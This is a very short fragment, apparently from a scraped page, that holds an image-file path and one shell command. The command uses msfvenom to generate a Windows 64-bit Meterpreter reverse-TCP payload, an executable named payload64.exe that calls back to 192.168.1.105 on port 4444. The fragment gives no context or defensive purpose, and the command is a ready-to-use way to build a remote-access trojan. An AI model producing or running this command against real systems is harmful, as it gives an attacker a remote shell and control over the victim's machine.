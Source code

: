 msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.105 LPORT=4444 -f exe > payload64.exe


